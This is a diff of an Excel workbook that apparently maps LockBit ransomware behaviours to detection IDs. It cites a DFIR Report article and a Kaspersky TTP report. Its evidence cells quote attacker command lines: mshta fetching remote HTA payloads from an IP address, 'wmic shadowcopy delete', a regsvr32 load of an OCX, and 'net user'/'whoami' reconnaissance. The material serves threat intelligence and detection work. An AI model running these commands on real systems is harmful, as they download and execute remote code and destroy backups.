

Before and after one commit to harveywargo2/h2w-delta, an Excel workbook: delta2/lib_e/osi_ransom/lockbit.xlsx, sheet sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; table styles not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/delta2/lib_e/osi_ransom/lockbit.xlsx (sheet sheet1)
+++ b/delta2/lib_e/osi_ransom/lockbit.xlsx (sheet sheet1)
-B2:B3 (map_pid): (empty)
+B2:B3 (map_pid): mshta-pid0001, mshta-pid0002
-C2:C5 (map_did): (empty)
+C2:C5 (map_did): process_create-windows_any
-E2 (evidence): {"process_command_line": r'''regsvr32 $user\$appdata\Vote1.ocx''', "initiating_process_path": "“$programfiles\Microsoft Office\ ↵ Office14\Excel.EXE"}
+E2 (evidence): {"process_command_line": "mshta http://92.51.2.22:443/UsySLX1n.hta", "process_name": "mshta.exe", "initiating_process_name": "tomcat9.exe"}
-G2:G5 (ns_meta): { "data": "2022-06", "url": "https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2022/06/23093553/Common-TTPs-of-the-modern-ransomware_low-res.pdf", "tags": ["conti", "cl0p","hive", "alphv", "lockbit", "blackbyte"]}
+G2:G5 (ns_meta): {"date": "2025-02" , "url": "https://thedfirreport.com/2025/02/24/confluence-exploit-leads-to-lockbit-ransomware/", "tags": "lockbit"}
-E3 (evidence): {"process_path": " $windir\\$system32\\cmd.exe", "process_command_line": "cmd /c c:\\users\\public\\compareForFor.hta", "initiating_process_path": "$programfiles\\Microsoft Office\\Office14\\WINWORD.EXE"}
+E3 (evidence): {"process_command_line": "mshta http://92.51.2.22:443/TNillGnQ.hta"}
-B4 (map_pid): (empty)
+B4 (map_pid): netclt-pid0021
-E4 (evidence): {"process_path": "$windir\$system32\wbem\WMIC.exe", "process_command_line": "wmic shadowcopy delete"}
+E4 (evidence): {"process_command_line": "net user", "initiating_process_file_name": "tomcat9.exe", "account_name": "NETWORK SERVICE"}
-B5 (map_pid): (empty)
+B5 (map_pid): whoami-pid0001
-E5 (evidence): {"process_path": "$windir\$system32\wbem\WMIC.exe", "process_command_line": "wmic csproduct get UUID"}
+E5 (evidence): {"process_command_line": "whoami", "initiating_process_file_name": "tomcat9.exe", "account_name": "NETWORK SERVICE"}
```
Also changed, not shown: 142 removed rows and 487 edited cells elsewhere in this sheet, delta2/lib_e/osi_ransom/alphv.xlsx, delta2/lib_e/osi_ransom/blackbyte.xlsx, 30 other files.
